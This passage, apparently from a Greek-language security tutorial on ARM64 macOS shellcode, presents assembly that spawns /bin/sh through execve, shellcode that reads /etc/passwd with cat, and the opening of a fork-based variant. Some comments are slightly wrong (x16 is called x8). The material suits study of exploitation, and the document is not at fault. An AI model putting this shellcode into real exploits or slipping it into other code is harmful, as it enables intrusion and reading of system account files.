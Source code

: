 {% tab title="με adr για Linux" %}
```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}
{% endtabs %}

#### Διάβασμα με την εντολή cat

Ο στόχος είναι να εκτελεστεί η εντολή `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, οπότε το δεύτερο όρισμα (x1) είναι ένας πίνακας παραμέτρων (ο οποίος στη μνήμη αντιστοιχεί σε ένα σωρό με τις διευθύνσεις).
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the execve syscall
sub sp, sp, #48        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, cat_path
str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
adr x0, passwd_path    ; Get the address of "/etc/passwd"
str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

adr x0, cat_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
#### Καλέστε την εντολή με το sh από ένα fork ώστε η κύρια διεργασία να μην τερματιστεί
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the fork syscall
mov x16, #2            ; Load the syscall number for fork (2) into x8
svc 0                  ; Make the syscall
```